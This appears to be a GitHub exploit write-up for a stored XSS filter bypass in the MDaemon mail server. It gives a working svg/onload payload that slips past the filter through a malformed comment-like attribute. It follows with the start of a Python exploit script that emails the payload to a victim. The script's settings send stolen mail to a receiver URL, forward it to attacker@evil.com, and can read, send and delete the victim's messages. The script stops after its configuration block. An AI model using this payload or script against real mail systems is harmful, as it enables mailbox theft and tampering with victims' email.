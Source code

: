 The Mdeamon server serves the XSS content with an error method.

The XSS filter don't deal well with the "<!----" as the attribute of the html element which can bypass the XSS filter. We can bypass the filter in this way:

<svg <!----test----="" onload="alert(123)">

Once the victim opens the mail with the malicious payload, the code that the attacker injected will run immediately. 

**Exploit:**

This is exploit which will send from attackers email a malicious email to the victim with a payload that will send back the attacker the victim's mails.
```python
#coding=utf-8

from email.header import Header
from email.mime.text import MIMEText
from email.utils import parseaddr, formataddr
from email.mime.multipart import MIMEMultipart
from email.mime.application import MIMEApplication
import smtplib

#---------------------------setting--------------------------------#
# the attacker's email info #Test with MDaemon email
mail\_host="test.com"            
mail\_user="attacker@test.com"     
mail\_pass="Password123"             

# set the victorm
victim = "victim@test.com"      #MDaemon Email    maildomin.com:3000

# set the keywords
keywords\_receive = "\[\]"  
keywords\_send = "\[\]"  
keywords\_delete = "\[\]"  
keywords = "\[\]"

# set the max count
max\_count\_recevie = 300
max\_count\_send = 300
max\_count\_delete = 300

# set the browser, chrome has some errors when use svg.
# in fact,this is no needed. We can put two payloads together in the email.
browser = 'others'  #\['chrome','others'\]


# set the receiver's server.
xss\_platform = 'http://192.168.142.132/receiveinfo/message\_receive.php'

# email forward
ForwardingAddress = 'attacker@evil.com'

#MITM attack
send\_attack\_to\_who = 'last@test.com'
Subject = 'title Hello!'
body = 'This is body!!!'

# open different functions
function = \['forwarding','contact','receive','send','delete'\]
#function = \['test'\]


sent\_content = "THe email content!!!!"
```